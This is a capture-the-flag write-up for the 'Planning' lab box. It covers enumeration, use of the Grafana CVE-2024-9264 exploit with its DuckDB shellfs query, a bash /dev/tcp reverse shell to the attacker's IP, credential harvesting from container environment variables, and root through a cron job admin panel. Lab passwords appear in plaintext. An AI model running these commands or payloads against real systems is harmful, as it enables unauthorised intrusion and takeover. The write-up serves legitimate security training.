





# Planning CTF Writeup

## Initial Enumeration

I started by scanning the target with **Nmap**:

```bash
nmap -sC -sV -Pn -p- 10.129.237.241
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-08-28 03:35 CDT
Nmap scan report for 10.129.237.241
Host is up (0.078s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 62:ff:f6:d4:57:88:05:ad:f4:d3:de:5b:9b:f8:50:f1 (ECDSA)
|_  256 4c:ce:7d:5c:fb:2d:a0:9e:9f:bd:f5:5c:5e:61:50:8a (ED25519)
80/tcp open  http    nginx 1.24.0 (Ubuntu)
|_http-title: Did not follow redirect to http://planning.htb/
|_http-server-header: nginx/1.24.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 34.97 seconds
```

The scan revealed **SSH (22)** and **HTTP (80)**. I added the hostname to my `/etc/hosts` file and browsed the site. It redirected to `planning.htb`, but nginx itself didn’t show any obvious vulnerabilities.

---

## Directory Brute-Force

I ran **Gobuster** to search for hidden paths:

```bash
gobuster dir -u http://planning.htb/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://planning.htb/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/css                  (Status: 301) [Size: 178] [--> http://planning.htb/css/]
/img                  (Status: 301) [Size: 178] [--> http://planning.htb/img/]
/index.php            (Status: 200) [Size: 23914]
/js                   (Status: 301) [Size: 178] [--> http://planning.htb/js/]
/lib                  (Status: 301) [Size: 178] [--> http://planning.htb/lib/]
Progress: 4723 / 4724 (99.98%)
===============================================================
Finished
===============================================================
```

Nothing particularly useful here. I decided to check for **subdomains**, where I discovered a **Grafana instance**.

---

## Grafana Exploitation

I had valid credentials (given in the CTF description). After logging in, I confirmed the version:

Grafana v11.0.0 (83b9528bce)


This version is vulnerable to **CVE-2024-9264**. I used the public exploit:

```bash
python3 CVE-2024-9264.py -u admin -p 0D5oT70Fq13EvB5r  -c id  http://grafana.planning.htb
[+] Logged in as admin:0D5oT70Fq13EvB5r
[+] Executing command: id
[+] Successfully ran duckdb query:
[+] SELECT 1;install shellfs from community;LOAD shellfs;SELECT * FROM read_csv('id >/tmp/grafana_cmd_output 2>&1 |'):
[+] Successfully ran duckdb query:
[+] SELECT content FROM read_blob('/tmp/grafana_cmd_output'):
uid=0(root) gid=0(root) groups=0(root)
```

I already had **root** inside the container, so I proceeded to gain a reverse shell.

---

## Gaining a Reverse Shell

Listener on my machine:

```bash
nc -lvnp 4444 -s 10.10.14.129
```

Exploit with reverse shell payload:

```bash
python3 CVE-2024-9264.py -u admin -p 0D5oT70Fq13EvB5r  -c 'bash -c "bash -i >& /dev/tcp/10.10.14.129/4444 0>&1"'  http://grafana.planning.htb
```

Connection established:

```bash
listening on [10.10.14.129] 4444 ...
connect to [10.10.14.129] from (UNKNOWN) [10.129.221.122] 48752
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
root@7ce659d667d7:~# ls
ls
LICENSE
bin
conf
public
root@7ce659d667d7:~# cd /root
```

---

## Container Discovery

It quickly became clear that this was a **Docker container**:

```bash
ls -la /.dockerenv
-rwxr-xr-x 1 root root 0 Apr  4 10:23 /.dockerenv

cat /proc/1/cgroup
0::/

ps -p 1 -o comm=
grafana
```

---

## Escaping to the Host

I uploaded and executed **linpeas.sh**, which revealed environment variables including Grafana credentials:

```bash
GF_SECURITY_ADMIN_USER=enzo
GF_SECURITY_ADMIN_PASSWORD=RioTecRANDEntANT!
```



I used these to log into the host via SSH:

```bash
enzo@planning:~$ id
uid=1000(enzo) gid=1000(enzo) groups=1000(enzo)
```

---

## Privilege Escalation

Checking `sudo -l` showed no privileges:

```bash
enzo@planning:~$ sudo -l
[sudo] password for enzo: 
Sorry, user enzo may not run sudo on planning.
```

So I turned to **listening ports**:

```bash
ss -tulpn
...
127.0.0.1:8000 – local service
127.0.0.1:3306 – MySQL
...
```

Port **8000** looked interesting. I used SSH port forwarding:

```bash
ssh -L 8000:127.0.0.1:8000 enzo@planning.htb
```

Browsing to it revealed a **web login panel**:


---

## Finding the Root Cron

While enumerating, I discovered a cron configuration:

```bash
enzo@planning:~$ ls /opt/crontabs
crontab.db

cat /opt/crontabs/crontab.db 
{"name":"Grafana backup","command":"/usr/bin/docker save root_grafana -o /var/backups/grafana.tar && /usr/bin/gzip /var/backups/grafana.tar && zip -P P4ssw0rdS0pRi0T3c /var/backups/grafana.tar.gz.zip /var/backups/grafana.tar.gz && rm /var/backups/grafana.tar.gz","schedule":"@daily","stopped":false,"timestamp":"Fri Feb 28 2025 20:36:23 GMT+0000 (Coordinated Universal Time)","logging":"false","mailing":{},"created":1740774983276,"saved":false,"_id":"GTI22PpoJNtRKg0W"}
{"name":"Cleanup","command":"/root/scripts/cleanup.sh","schedule":"* * * * *","stopped":false,"timestamp":"Sat Mar 01 2025 17:15:09 GMT+0000 (Coordinated Universal Time)","logging":"false","mailing":{},"created":1740849309992,"saved":false,"_id":"gNIRXh1WIc9K7BYX"}
```

This confirmed a **root cron job**.


The web panel on port 8000 turned out to be a **cron job admin interface**:


---

## Exploiting the Cron

I uploaded a malicious binary (`bashroot`) via the cron interface, and after execution, gained a **root shell**:

```bash
enzo@planning:/tmp$ /tmp/bashroot -p
bashroot-5.2# id
uid=1000(enzo) gid=1000(enzo) euid=0(root) groups=1000(enzo)
bashroot-5.2#
```

---

# Conclusion

This CTF followed a fairly classic path:

1. Initial enumeration → discovered **Grafana**.
2. Exploited **CVE-2024-9264** to gain root inside a container.
3. Extracted credentials → SSH access as **enzo** on the host.
4. Enumerated ports → discovered internal **cron web interface**.
5. Abused cron job misconfig → escalated to **root on the host**.

---
